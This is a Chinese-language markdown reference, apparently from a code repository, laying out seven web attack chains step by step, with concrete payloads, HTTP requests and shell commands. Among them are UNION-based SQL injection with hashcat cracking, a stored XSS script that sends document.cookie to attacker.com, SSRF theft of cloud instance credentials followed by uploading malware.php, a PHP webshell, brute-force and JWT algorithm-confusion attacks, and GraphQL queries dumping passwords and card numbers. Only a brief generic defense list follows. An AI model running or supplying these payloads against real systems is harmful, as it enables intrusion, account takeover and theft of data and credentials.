







# 详细漏洞攻击链

> **参考说明**：本文档展示**理论攻击链模型**
> - 实际攻击链应根据**目标实际情况**动态构建
> - 每个环节的可行性需**实际验证**，非必然成功
> - 本文档仅供参考，攻击链需灵活调整

---

## 漏洞链概述

复杂漏洞往往不是独立存在的，而是通过多个步骤组合形成攻击链。本文档详细描述常见的攻击链及其利用路径。

---

## 攻击链 1: SQL 注入 → 数据泄露 → 账户接管

### 攻击路径图



### 步骤详解

#### 步骤 1: 识别注入点

```http
GET /api/users?id=1 HTTP/1.1
Host: api.example.com
```

**响应**：
```json
{
  "id": 1,
  "name": "John",
  "email": "john@example.com"
}
```

#### 步骤 2: 验证注入

```http
GET /api/users?id=1' HTTP/1.1

Response: 500 Internal Server Error
```

#### 步骤 3: UNION 注入

```http
GET /api/users?id=1' UNION SELECT NULL,username,password,email FROM users-- HTTP/1.1
```

**成功响应**：
```json
{
  "id": null,
  "name": "admin",
  "email": "admin@example.com",
  "password": "5f4dcc3b5aa765d61d8327deb882cf99"
}
```

#### 步骤 4: 破解密码哈希

```bash
# 哈希分析
echo "5f4dcc3b5aa765d61d8327deb882cf99" | hashcat -m 0 -a 0 -w /usr/share/wordlists/rockyou.txt

# 结果: password123
```

#### 步骤 5: 账户登录

```http
POST /api/login HTTP/1.1
Content-Type: application/json

{"username": "admin", "password": "password123"}
```

**响应**：
```json
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "role": "admin"
}
```

---

## 攻击链 2: XSS → Cookie 窃取 → 会话劫持

### 攻击路径图



### 步骤详解

#### 步骤 1: 发现 XSS 注入点

```http
POST /api/comments HTTP/1.1
Content-Type: application/json

{"comment": ""}
```

**验证**：评论被存储并在其他用户页面显示。

#### 步骤 2: 植入窃取脚本

```html
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

#### 步骤 3: 等待管理员访问

管理员访问评论区时，脚本自动执行。

#### 步骤 4: 窃取 Cookie

```http
GET /steal?cookie=SESSIONID=abc123... HTTP/1.1
Host: attacker.com
```

#### 步骤 5: 会话重放

```http
GET /api/admin/users HTTP/1.1
Cookie: SESSIONID=abc123...
```

---

## 攻击链 3: SSRF → 元数据访问 → 云环境控制

### 攻击路径图



### 步骤详解

#### 步骤 1: 发现 SSRF 端点

```http
POST /api/fetch HTTP/1.1
Content-Type: application/json

{"url": "https://example.com/page"}
```

#### 步骤 2: 探测内网服务

```json
{"url": "http://169.254.169.254/latest/meta-data/"}
```

**响应**：返回 EC2 元数据。

#### 步骤 3: 获取 IAM 凭证

```json
{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}
```

**响应**：
```json
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "..."
}
```

#### 步骤 4: 利用云凭证

```bash
# 配置 AWS 凭证
aws configure set aws_access_key_id ASIA...
aws configure set aws_secret_access_key ...
aws configure set aws_session_token ...

# 枚举 S3 桶
aws s3 ls

# 上传恶意文件
aws s3 cp malware.php s3://vulnerable-bucket/
```

---

## 攻击链 4: IDOR → 水平越权 → 垂直越权

### 攻击路径图



### 步骤详解

#### 步骤 1: 普通用户操作

```http
GET /api/profile HTTP/1.1
Authorization: Bearer <user_token>

Response:
{
  "id": 1001,
  "name": "User A",
  "role": "user"
}
```

#### 步骤 2: 尝试 IDOR

```http
GET /api/profile/1002 HTTP/1.1
Authorization: Bearer <user_token>

Response:
{
  "id": 1002,
  "name": "User B",
  "role": "user"
}
```

**成功**：水平越权！

#### 步骤 3: 发现管理接口

```http
GET /api/admin/users HTTP/1.1
Authorization: Bearer <user_token>

Response: 403 Forbidden
```

#### 步骤 4: 绕过访问控制

```http
GET /api/admin/users HTTP/1.1
X-Original-URI: /api/admin/users
X-Forwarded-For: 127.0.0.1

Response: 200 OK
```

---

## 攻击链 5: 认证绕过 → 敏感数据 → 进一步利用

### 攻击路径图



### 步骤详解

#### 步骤 1: 分析认证机制

```http
POST /api/login HTTP/1.1
Content-Type: application/json

{"username": "admin", "password": "wrong"}
```

**响应**：显示用户名是否存在。

#### 步骤 2: 测试默认凭证

```bash
# 常用默认凭证
admin/admin
admin/password
root/root
```

#### 步骤 3: 暴力破解

```bash
# 使用常见密码列表
for pass in $(cat passwords.txt); do
  curl -X POST https://api.example.com/login \
    -d "username=admin&password=$pass"
done
```

#### 步骤 4: JWT 算法混淆

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

改为：

```json
{
  "alg": "RS256",
  "typ": "JWT"
}
```

使用服务端的公钥（可能泄露）签名。

---

## 攻击链 6: 文件上传 → webshell → 远程代码执行

### 攻击路径图



### 步骤详解

#### 步骤 1: 发现上传端点

```http
POST /api/upload HTTP/1.1
Content-Type: multipart/form-data

file: avatar.jpg
```

#### 步骤 2: 绕过检查

尝试以下方法：
- 双扩展名：`shell.php.jpg`
- MIME 伪装：`image/jpeg`
- 字节绕过：`GIF89a <?php system($_GET['cmd']); ?>`

#### 步骤 3: 上传 webshell

```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

#### 步骤 4: 执行命令

```http
GET /uploads/shell.php?cmd=whoami HTTP/1.1

Response: www-data
```

---

## 攻击链 7: GraphQL 内省 → 数据查询 → 批量数据导出

### 攻击路径图



### 步骤详解

#### 步骤 1: 发现 GraphQL

```http
POST /graphql HTTP/1.1
Content-Type: application/json

{"query": "{ __schema { types { name } } }"}
```

#### 步骤 2: 提取完整 schema

```graphql
query IntrospectionQuery {
  __schema {
    queryType { name }
    types {
      name
      fields {
        name
        type { name kind }
      }
    }
  }
}
```

#### 步骤 3: 构造查询

```graphql
query {
  users {
    id
    username
    email
    password
    creditCard {
      number
    }
  }
}
```

---

## 防御建议

### 通用措施

1. **输入验证**
   - 白名单过滤
   - 参数化查询
   - 输出编码

2. **认证与授权**
   - 强密码策略
   - 多因素认证
   - 最小权限原则

3. **安全配置**
   - 禁用危险功能
   - 限制文件上传
   - 禁用内省

4. **监控与日志**
   - 记录所有请求
   - 设置告警阈值
   - 定期审计日志
